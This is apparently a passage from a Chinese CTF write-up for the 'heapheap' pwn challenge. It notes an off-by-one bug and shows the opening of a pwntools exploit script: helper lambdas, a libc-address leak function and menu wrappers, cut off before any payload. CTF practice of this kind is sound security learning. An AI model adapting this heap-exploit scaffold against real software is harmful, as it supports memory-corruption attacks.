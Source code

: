 Pwn7 heapheap
-------------

也是个off\_by\_one，当时眼瞎，没看见。。。

```php
#coding=utf-8
from pwn import *

context(arch="amd64", os="linux")
# context.log_level='debug'
# context.terminal=['tmux','splitw','-h']

# ip = ''
# port = ''
# reomote_addr = [ip,port]
# binary = './heapheap'

# libc = ELF('/home/tamako/Desktop/tools/glibc-all-in-one/libs/2.27-3ubuntu1.4_amd64/libc.so.6')
# elf = ELF(binary)
# if len(sys.argv)==1:
#     p = process(binary)

# if len(sys.argv)==2 :
#     p = remote(reomote_addr[0],reomote_addr[1])

#----------------------------------------------------------------------
ru = lambda x : p.recvuntil(x,timeout=0.2)
sd = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)
it = lambda :p.interactive()
ru7f = lambda : u64(ru('\x7f')[-6:].ljust(8,b'\x00'))
rv6 = lambda : u64(rv(6)+b'\x00'*2)
lg = lambda s: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
bp = lambda src=None : attach(p,src)
sym = lambda name : libc.sym[name]
#----------------------------------------------------------------------

def leak(offset):
        addr = u64(p.recvuntil('\x7f',timeout=2)[-6:].ljust(8,'\x00'))
        base = addr - offset
        print "[+]libc_base=>"+hex(base)
        return base

def menu(idx):
        ru('Please input your choice: ')
        sl(str(idx))

def add(size,content='a'):
        menu(1)
        ru('Please input the size:')
        sl(str(size))
        ru('Data:')
        sd(content)

def fulladd(size,content):
        menu(1)
        ru('Please input the size:')
        sl(str(size))
        ru('Data:')
```